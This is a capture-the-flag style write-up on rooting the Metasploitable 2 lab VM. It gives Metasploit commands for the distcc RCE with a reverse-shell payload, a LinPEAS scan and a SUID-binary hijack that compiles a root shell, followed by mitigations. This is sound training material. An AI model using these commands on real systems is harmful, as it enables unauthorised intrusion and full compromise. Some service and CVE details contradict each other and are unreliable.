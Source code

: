 
---

# 🧨 Metasploitable 2 — The Hard Way to Root 🚀👑

**Author:** Tayler Derden  
**Category:** CTF / Exploitation Lab  
**Difficulty:** 🔴 Hard  
**Tags:** `PHP-CGI`, `Nuclei`, `LinPEAS`, `Privilege Escalation`, `SUID Hijacking`, `Linux`

---

## 📘 Description

**While this machine is known for its trivial `vsftpd 2.3.4` backdoor, this write-up documents a deliberately chosen, more challenging path to simulate a scenario where common exploits might fail. Instead of taking the easy way, the focus was on deep analysis and exploiting less obvious misconfigurations.**

This challenge is based on the classic **Metasploitable 2** virtual machine.  
The goal: identify vulnerabilities through deep enumeration, gain initial access, and escalate privileges to become **root**.

While there are simpler, well-known paths on this machine, **this write-up documents a deliberate choice to explore less obvious vectors**, simulating a scenario where common exploits might fail. The path involved multiple dead ends, including a patched PHP-CGI vulnerability and a failed PwnKit exploit, ultimately leading to a successful privilege escalation by exploiting a **SUID binary misconfiguration**.

---

## 🔍 Reconnaissance

### Initial Foothold & Deep Scan

Initial enumeration quickly identifies several "low-hanging fruit" vulnerabilities, such as a **backdoored ProFTPD on port 21**. However, choosing the easy path offers little challenge. Instead, the focus was shifted to a more comprehensive analysis of the machine's entire attack surface.

A full vulnerability scan was performed using **Nuclei** to uncover less trivial entry points.

```bash
nuclei -u http://192.168.58.3
```

**Key Results from Nuclei (Ignoring the obvious FTP backdoor):**

| Port | Service     | Finding                                  | Notes                                    |
|------|-------------|------------------------------------------|------------------------------------------|
| 3632 | distcc      | **RCE via CVE-2004-2687**                | **Chosen vector for initial access**     |
| 5432 | PostgreSQL  | Default credentials (postgres:postgres)  | Excellent alternative for access/pillage |
| 6200 | ingreslock | RCE via backdoored service (CVE-2011-2523) | Another solid RCE vector                 |

---

## 🔥 Vulnerability: distcc Command Execution (RCE)

The `distcc` service, a distributed compiler, was running on port 3632 and was vulnerable to **CVE-2004-2687**, allowing unauthenticated remote code execution. This vector was selected for being a more interesting and less common entry point than the FTP backdoor.

- **Metasploit module:** `exploit/unix/misc/distcc_exec`

---

## 💣 Exploitation

### Step 1: Launch Metasploit Exploit

```bash
msf6 > use exploit/unix/misc/distcc_exec
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 192.168.58.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST 192.168.58.1
msf6 exploit(unix/misc/distcc_exec) > set PAYLOAD cmd/unix/reverse_perl
msf6 exploit(unix/misc/distcc_exec) > run
```

🎉 **Result:** Reverse shell obtained as **daemon (UID 1)**.

---

## 🧠 Privilege Escalation

### Step 2: Surgical Enumeration with LinPEAS

A full LinPEAS scan was initially overwhelming. To focus the search, a targeted scan was used to find only misconfigured file permissions.

```bash
# On the victim machine
./linpeas.sh -o interesting_perms_files
```
🔎 This immediately revealed the critical vulnerability:

`You own the SUID file: /usr/bin/at`

This means the `daemon` user has write permissions on a binary that is owned by `root` and has the SUID bit set.

### Step 3: Exploit via SUID Binary Hijacking

The strategy was to replace the legitimate `/usr/bin/at` binary with a custom payload that spawns a root shell.

```bash
# 1. Back up the original binary
mv /usr/bin/at /tmp/at.bak

# 2. Create a C payload to spawn a root shell
echo '#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/sh", "sh", NULL);
    return 0;
}' > /tmp/evil_at.c

# 3. Compile the payload and replace the original binary
gcc /tmp/evil_at.c -o /usr/bin/at

# 4. Restore the SUID bit
chmod +s /usr/bin/at

# 5. Execute the hijacked binary
/usr/bin/at
```
🔥 Boom → A new shell appeared with **root access**.

---

## 🏆 Final Outcome

✔️ Performed deep enumeration with **Nuclei**, bypassing initial dead ends.  
✔️ Exploited **distcc (CVE-2004-2687)** → gained reverse shell as `daemon`.  
✔️ Performed targeted enumeration with **LinPEAS**.  
✔️ Escalated privileges by **hijacking a writable SUID binary (`/usr/bin/at`)**.  
✔️ Achieved **ROOT**!

---

## 🔬 CIA Triad Impact

| Property        | Impact                                                                    |
|-----------------|---------------------------------------------------------------------------|
| Confidentiality | 🔴 Full disclosure of all system data, including `/etc/shadow` and user files. |
| Integrity       | 🔴 Attacker can modify any file, install backdoors, and manipulate logs.    |
| Availability    | 🔴 The system can be fully disabled or destroyed by the attacker.           |

---

## 🛡️ Mitigation

- **Patch Services:** Update or disable vulnerable services like `distcc`.
- **Principle of Least Privilege:** Run services with dedicated, unprivileged users.
- **File Integrity Monitoring:** Use tools like `AIDE` or `Tripwire` to detect unauthorized changes to critical system binaries.
- **SUID/SGID Auditing:** Regularly audit SUID/SGID files and remove permissions where they are not strictly necessary.

---

## 💡 Reflection

This lab was a masterclass in persistence and methodical problem-solving.
- It proved that while simple paths like the **ProFTPD backdoor** exist, a deeper analysis reveals a much richer and more educational attack surface.
- Reinforced the power of **targeted enumeration** over "spray and pray" tactics.
- Showcased a classic, reliable privilege escalation technique that is often more effective than complex kernel exploits.
- The path was not linear; it required adapting to failures and re-evaluating intelligence, which is the essence of a real penetration test.

🔥 This wasn't just about getting root; it was about earning it through analysis, precision, and the deliberate choice of a more challenging path.
